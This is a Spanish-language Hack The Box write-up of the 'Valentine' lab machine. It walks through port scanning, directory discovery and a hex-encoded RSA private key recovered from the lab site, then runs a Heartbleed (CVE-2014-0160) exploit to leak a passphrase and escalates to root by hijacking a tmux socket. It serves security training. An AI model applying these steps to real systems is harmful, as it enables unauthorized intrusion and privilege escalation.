 ```yaml
---
title: Writeup valentine - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - valentine
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina valentine en Hack The Box.
keywords:
  - writeup valentine
  - hack the box valentine
  - resolución máquina valentine
  - valentine hack the box
  - htb valentine
---
```

----------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Valentine)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=Pg7l8bmf2-Q)
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=ZbJH7vUH_R0)

---

#easy #linux #nmap #ping #tmux #tratamientotty #xxd #nvim #whatweb #wappalyzer #gobuster #CVE-2014-0160 #hearthbleed #base64

-------
# Guided Mode

1)¿Cuántos puertos TCP están abiertos en el host remoto?
	3

2)¿Qué bandera se utiliza con nmap para ejecutar sus scripts de detección de vulnerabilidades (con la categoría «vuln») en el objetivo?
	--script vuln

3)¿Cuál es el ID CVE 2014 de una vulnerabilidad de divulgación de información a la que es vulnerable el servicio del puerto 443?
	CVE-2014-0160

4)¿Qué contraseñas pueden filtrarse utilizando HeartBleed (CVE-2014-0160)?
	heartbleedbelievethehype

5)¿Cuál es la ruta relativa de una carpeta en el sitio web que contiene dos archivos interesantes, incluido note.txt?
	/dev

6)¿Cuál es el nombre del archivo de la clave RSA que se encuentra en el sitio web?
	hype_key

*La pregunta anterior era de la flag user.txt*
8)¿Cómo se llama el software de multiplexación de terminales que el usuario hype ha ejecutado anteriormente?
	tmux

9)¿Cuál es la ruta completa al archivo socket utilizado por la sesión tmux?
	/.devs/dev_sess

10)¿Con qué usuario se ejecuta esa sesión de tmux?
	root

--------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.79
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.79 -oG allports
extractPorts allports
nmap -sCV -p22,80,443 10.10.10.79 -oN target
```

![[Valentine1.png]]
![[Valentine2.png]]
![[Valentine3.png]]
*TTL:* Maquina Linux
*Puertos:*
	`22`[[ssh]]
	`80` HTTP
	`443` HTTPS

-------
# [[Whatweb-wappalyzer]]


### Web por el puerto 80

![[Valentine9.png]]

```shell
whatweb http://10.10.10.79/
```

![[Valentine6.png]]

![[Valentine5.png]]

No nos da ninguna informacion relevante


### Web por el puerto 443

```shell
whatweb http://10.10.10.79:443/
```

![[Valentine16.png]]

![[Valentine17.png]]
![[Valentine18.png]]

No nos da ninguna información relevante

---
# [[Gobuster]]

```
gobuster dir -u http://10.10.10.79 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt --add-slash -t 64
```

![[Valentine4.png]]
Nos da el directorio http://10.10.10.79/dev

---
# Obtenemos un id_rsa

![[Valentine7.png]]
Entramos al *hype_key*
http://10.10.10.79/dev/hype_key

![[Valentine8.png]]

Vamos a copiar todo y lo vamos a meter dentro de un archivo que vamos a llamar key.txt
Con [[nvim]] vamos a crear el archivo usando el comando `nvim key.txt`

```txt
2d 2d 2d 2d 2d 42 45 47 49 4e 20 52 53 41 20 50 52 49 56 41 54 45 20 4b 45 59 2d 2d 2d 2d 2d 0d 0a 50 72 6f 63 2d 54 79 70 65 3a 20 34 2c 45 4e 43 52 59 50 54 45 44 0d 0a 44 45 4b 2d 49 6e 66 6f 3a 20 41 45 53 2d 31 32 38 2d 43 42 43 2c 41 45 42 38 38 43 31 34 30 46 36 39 42 46 32 30 37 34 37 38 38 44 45 32 34 41 45 34 38 44 34 36 0d 0a 0d 0a 44 62 50 72 4f 37 38 6b 65 67 4e 75 6b 31 44 41 71 6c 41 4e 35 6a 62 6a 58 76 30 50 50 73 6f 67 33 6a 64 62 4d 46 53 38 69 45 39 70 33 55 4f 4c 30 6c 46 30 78 66 37 50 7a 6d 72 6b 44 61 38 52 0d 0a 35 79 2f 62 34 36 2b 39 6e 45 70 43 4d 66 54 50 68 4e 75 4a 52 63 57 32 55 32 67 4a 63 4f 46 48 2b 39 52 4a 44 42 43 35 55 4a 4d 55 53 31 2f 67 6a 42 2f 37 2f 4d 79 30 30 4d 77 78 2b 61 49 36 0d 0a 30 45 49 30 53 62 4f 59 55 41 56 31 57 34 45 56 37 6d 39 36 51 73 5a 6a 72 77 4a 76 6e 6a 56 61 66 6d 36 56 73 4b 61 54 50 42 48 70 75 67 63 41 53 76 4d 71 7a 37 36 57 36 61 62 52 5a 65 58 69 0d 0a 45 62 77 36 36 68 6a 46 6d 41 75 34 41 7a 71 63 4d 2f 6b 69 67 4e 52 46 50 59 75 4e 69 58 72 58 73 31 77 2f 64 65 4c 43 71 43 4a 2b 45 61 31 54 38 7a 6c 61 73 36 66 63 6d 68 4d 38 41 2b 38 50 0d 0a 4f 58 42 4b 4e 65 36 6c 31 37 68 4b 61 54 36 77 46 6e 70 35 65 58 4f 61 55 49 48 76 48 6e 76 4f 36 53 63 48 56 57 52 72 5a 37 30 66 63 70 63 70 69 6d 4c 31 77 31 33 54 67 64 64 32 41 69 47 64 0d 0a 70 48 4c 4a 70 59 55 49 49 35 50 75 4f 36 78 2b 4c 53 38 6e 31 72 2f 47 57 4d 71 53 4f 45 69 6d 4e 52 44 31 6a 2f 35 39 2f 34 75 33 52 4f 72 54 43 4b 65 6f 39 44 73 54 52 71 73 32 6b 31 53 48 0d 0a 51 64 57 77 46 77 61 58 62 59 79 54 31 75 78 41 4d 53 6c 35 48 71 39 4f 44 35 48 4a 38 47 30 52 36 4a 49 35 52 76 43 4e 55 51 6a 77 78 30 46 49 54 6a 6a 4d 6a 6e 4c 49 70 78 6a 76 66 71 2b 45 0d 0a 70 30 67 44 30 55 63 79 6c 4b 6d 36 72 43 5a 71 61 63 77 6e 53 64 64 48 57 38 57 33 4c 78 4a 6d 43 78 64 78 57 35 6c 74 35 64 50 6a 41 6b 42 59 52 55 6e 6c 39 31 45 53 43 69 44 34 5a 2b 75 43 0d 0a 4f 6c 36 6a 4c 46 44 32 6b 61 4f 4c 66 75 79 65 65 30 66 59 43 62 37 47 54 71 4f 65 37 45 6d 4d 42 33 66 47 49 77 53 64 57 38 4f 43 38 4e 57 54 6b 77 70 6a 63 30 45 4c 62 6c 55 61 36 75 6c 4f 0d 0a 74 39 67 72 53 6f 73 52 54 43 73 5a 64 31 34 4f 50 74 73 34 62 4c 73 70 4b 78 4d 4d 4f 73 67 6e 4b 6c 6f 58 76 6e 6c 50 4f 53 77 53 70 57 79 39 57 70 36 79 38 58 58 38 2b 46 34 30 72 78 6c 35 0d 0a 58 71 68 44 55 42 68 79 6b 31 43 33 59 50 4f 69 44 75 50 4f 6e 4d 58 61 49 70 65 31 64 67 62 30 4e 64 44 31 4d 39 5a 51 53 4e 55 4c 77 31 44 48 43 47 50 50 34 4a 53 53 78 58 37 42 57 64 44 4b 0d 0a 61 41 6e 57 4a 76 46 67 6c 41 34 6f 46 42 42 56 41 38 75 41 50 4d 66 56 32 58 46 51 6e 6a 77 55 54 35 62 50 4c 43 36 35 74 46 73 74 6f 52 74 54 5a 31 75 53 72 75 61 69 32 37 6b 78 54 6e 4c 51 0d 0a 2b 77 51 38 37 6c 4d 61 64 64 73 31 47 51 4e 65 47 73 4b 53 66 38 52 2f 72 73 52 4b 65 65 4b 63 69 6c 44 65 50 43 6a 65 61 4c 71 74 71 78 6e 68 4e 6f 46 74 67 30 4d 78 74 36 72 32 67 62 31 45 0d 0a 41 6c 6f 51 36 6a 67 35 54 62 6a 35 4a 37 71 75 59 58 5a 50 79 6c 42 6c 6a 4e 70 39 47 56 70 69 6e 50 63 33 4b 70 48 74 74 76 67 62 70 74 66 69 57 45 45 73 5a 59 6e 35 79 5a 50 68 55 72 39 51 0d 0a 72 30 38 70 6b 4f 78 41 72 58 45 32 64 6a 37 65 58 2b 62 71 36 35 36 33 35 4f 4a 36 54 71 48 62 41 6c 54 51 31 52 73 39 50 75 6c 72 53 37 4b 34 53 4c 58 37 6e 59 38 39 2f 52 5a 35 6f 53 51 65 0d 0a 32 56 57 52 79 54 5a 31 46 66 6e 67 4a 53 73 76 39 2b 4d 66 76 7a 33 34 31 6c 62 7a 4f 49 57 6d 6b 37 57 66 45 63 57 63 48 63 31 36 6e 39 56 30 49 62 53 4e 41 4c 6e 6a 54 68 76 45 63 50 6b 79 0d 0a 65 31 42 73 66 53 62 73 66 39 46 67 75 55 5a 6b 67 48 41 6e 6e 66 52 4b 6b 47 56 47 31 4f 56 79 75 77 63 2f 4c 56 6a 6d 62 68 5a 7a 4b 77 4c 68 61 5a 52 4e 64 38 48 45 4d 38 36 66 4e 6f 6a 50 0d 0a 30 39 6e 56 6a 54 61 59 74 57 55 58 6b 30 53 69 31 57 30 32 77 62 75 31 4e 7a 4c 2b 31 54 67 39 49 70 4e 79 49 53 46 43 46 59 6a 53 71 69 79 47 2b 57 55 37 49 77 4b 33 59 55 35 6b 70 33 43 43 0d 0a 64 59 53 63 7a 36 33 51 32 70 51 61 66 78 66 53 62 75 76 34 43 4d 6e 4e 70 64 69 72 56 4b 45 6f 35 6e 52 52 66 4b 2f 69 61 4c 33 58 31 52 33 44 78 56 38 65 53 59 46 4b 46 4c 36 70 71 70 75 58 0d 0a 63 59 35 59 5a 4a 47 41 70 2b 4a 78 73 6e 49 51 39 43 46 79 78 49 74 39 32 66 72 58 7a 6e 73 6a 68 6c 59 61 38 73 76 62 56 4e 4e 66 6b 2f 39 66 79 58 36 6f 70 32 34 72 4c 32 44 79 45 53 70 59 0d 0a 70 6e 73 75 6b 42 43 46 42 6b 5a 48 57 4e 4e 79 65 4e 37 62 35 47 68 54 56 43 6f 64 48 68 7a 48 56 46 65 68 54 75 42 72 70 2b 56 75 50 71 61 71 44 76 4d 43 56 65 31 44 5a 43 62 34 4d 6a 41 6a 0d 0a 4d 73 6c 66 2b 39 78 4b 2b 54 58 45 4c 33 69 63 6d 49 4f 42 52 64 50 79 77 36 65 2f 4a 6c 51 6c 56 52 6c 6d 53 68 46 70 49 38 65 62 2f 38 56 73 54 79 4a 53 65 2b 62 38 35 33 7a 75 56 32 71 4c 0d 0a 73 75 4c 61 42 4d 78 59 4b 6d 33 2b 7a 45 44 49 44 76 65 4b 50 4e 61 61 57 5a 67 45 63 71 78 79 6c 43 43 2f 77 55 79 55 58 6c 4d 4a 35 30 4e 77 36 4a 4e 56 4d 4d 38 4c 65 43 69 69 33 4f 45 57 0d 0a 6c 30 6c 6e 39 4c 31 62 2f 4e 58 70 48 6a 47 61 38 57 48 48 54 6a 6f 49 69 6c 42 35 71 4e 55 79 79 77 53 65 54 42 46 32 61 77 52 6c 58 48 39 42 72 6b 5a 47 34 46 63 34 67 64 6d 57 2f 49 7a 54 0d 0a 52 55 67 5a 6b 62 4d 51 5a 4e 49 49 66 7a 6a 31 51 75 69 6c 52 56 42 6d 2f 46 37 36 59 2f 59 4d 72 6d 6e 4d 39 6b 2f 31 78 53 47 49 73 6b 77 43 55 51 2b 39 35 43 47 48 4a 45 38 4d 6b 68 44 33 0d 0a 2d 2d 2d 2d 2d 45 4e 44 20 52 53 41 20 50 52 49 56 41 54 45 20 4b 45 59 2d 2d 2d 2d 2d
```

Ahora con [[xxd]] vamos a usar el comando ``xxd -r -p key.txt > id_rsa`` para pasar de hexadecimal a binario y luego con [[chmod]] usamos el comando `chmod 600 id_rsa` para darle permiso de ejecucion

  ![[Valentine19.png]]

---
## [[NMAP Scripts]]

Como es una version vieja de apache, seguramente el openssl es una version vieja y por eso enumeramos por hearthbleed
   ```bash
   nmap --script ssl-heartbleed -p80,443,22 10.10.10.79
   ```
   ![[Valentine10.png]]
Es vulnerable a hearthbleed

--------
# [[searchsploit]] y [[CVE-2014-0160]]

Buscamos algun exploit para [[CVE-2014-0160]] con el comando searchsploit ``searchsploit heartbleed``, luego encontramos este exploit que nos interesa y lo descargamos con `searchsploit -m multiple/remote/32764.py`
   ![[Valentine11.png]]
Ahora lo vamos a ejecutar con `python2.7 32764.py 10.10.10.79 -p 443`

   ![[Valentine12.png]]
Nos da este codigo que al parecer esta en base 64 *aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg\==*

Ahora con [[echo]] y [[base64]] vamos a usar el comando `echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d` para decodificarlo
   ![[Valentine13.png]]
Y vemos que obtenemos como resultado *heartbleedbelievethehype*

---
# Conexion por [[ssh]]

```bash
ssh -o PubkeyAcceptedKeyTypes=+ssh-rsa -o HostKeyAlgorithms=+ssh-rsa -i id_rsa hype@10.10.10.79
```
Cuando nos pida el passphrase vamos a poner *heartbleedbelievethehype*

![[Valentine14.png]]

---
# [[Tratamiento de la TTY]]

---
# Escalada de privilegios [[Binario especifico - TMUX]]

Con [[ps faux y ps -eo]] usamos el comando `ps faux` y vemos el binario de *tmux*
   ![[Valentine15.png]]

[Articulo que explica la vulnerabilidad](https://int0x33.medium.com/day-69-hijacking-tmux-sessions-2-priv-esc-f05893c4ded0)
*Breve resumen:*
	Tmux creó un **socket UNIX** usando `-S /.devs/dev_sess` para compartir la sesión con otro usuario; si el socket de root tiene permisos `rw` para tu grupo, cualquiera puede **tomar control de la sesión y ejecutar comandos como root**.


Ahora vamos a usar el comando `tmux -S /.devs/dev_sess` para hacernos root, y listo ya podemos catear las flags

![[Valentine20.png]]

----------
# Notas

SSl es el protocolo de cifrado de https

ASCII es **una forma de representar bytes en binario usando caracteres legibles**.

---

# 📚 Créditos

- Writeup oficial de HTB  
- [Writeup de adrijmnz](https://github.com/adrijmnz/WriteUps/blob/main/HackTheBox/Easy/Valentine/Valentine.md)
